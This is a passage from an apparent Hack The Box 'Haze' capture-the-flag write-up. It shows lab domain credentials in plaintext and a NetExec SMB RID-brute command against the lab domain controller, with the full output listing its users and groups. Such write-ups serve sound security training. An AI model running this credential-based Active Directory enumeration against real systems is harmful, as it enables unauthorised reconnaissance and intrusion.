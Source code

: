 Success! we have valid credentials.

`paul.taylor:Ld@p_Auth_Sp1unk@2k24`

Attempting to grab a list of users only shows `paul.taylor` let's instead use `smb` to `rid-brute`.

```bash
nxc smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute

SMB         10.129.228.118  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.118  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
SMB         10.129.228.118  445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.129.228.118  445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.129.228.118  445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.129.228.118  445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.129.228.118  445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.129.228.118  445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.129.228.118  445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.228.118  445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.129.228.118  445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.228.118  445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.228.118  445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.228.118  445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.129.228.118  445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.129.228.118  445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.228.118  445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.129.228.118  445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.129.228.118  445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.129.228.118  445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.129.228.118  445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.129.228.118  445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.129.228.118  445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.129.228.118  445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.129.228.118  445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```
